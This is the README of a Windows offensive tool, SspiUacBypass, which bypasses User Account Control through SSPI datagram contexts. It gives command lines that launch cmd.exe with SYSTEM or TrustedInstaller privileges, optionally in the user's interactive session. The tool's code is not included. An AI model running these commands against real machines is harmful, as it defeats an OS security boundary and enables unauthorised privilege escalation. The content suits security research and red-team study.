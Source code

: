 # SspiUacBypass
Bypassing UAC with SSPI Datagram Contexts 

Full technical details at --> https://splintercod3.blogspot.com/p/bypassing-uac-with-sspi-datagram.html

# Requirements for the bypass to works

- The user must belongs to the local *Administrators* group *(needed to open the SCM)*
- The user must have a password set 
*(Windows security policy prevents accounts with blank passwords from establishing network authentication contexts, causing the AcceptSecurityContext function to fail with SEC_E_LOGON_DENIED because the system cannot generate valid security tokens for passwordless accounts during network logon attempts.)*


# Usage

Run a command using SYSTEM privileges

**Note**: By default, as the program will be executed by a service, it will spawn on Session 0 which is isolated from your current session.

```
SspiUacBypass.exe  c:\windows\system32\cmd.exe
SspiUacBypass.exe  cmd.exe
SspiUacBypass.exe  "cmd.exe /k dir %windir%\System32"
```

Run a command using SYSTEM privileges **(Interactive)**

**Note**: Using the *-i* argument, the process will spawn on your current Session and Desktop *(winsta0\\default)*

```
SspiUacBypass.exe  -i c:\windows\system32\cmd.exe
```

Run a command using Trusted Installer Privileges

**Note**: Using the *-t* argument, *SspiUacBypass.exe* will try to start the **Trusted Installer service**, get its token, duplicate it and use it to spawn the process using the same privileges as *Trusted Installer*.

```
SspiUacBypass.exe  -t c:\windows\system32\cmd.exe
```


Run a command using Trusted Installer Privileges **(Interactive)**

**Note**: You can use both arguments at the same time. The process will spawn in the current user desktop with *Trusted Installer* privileges.

```
SspiUacBypass.exe  -i -t c:\windows\system32\cmd.exe
```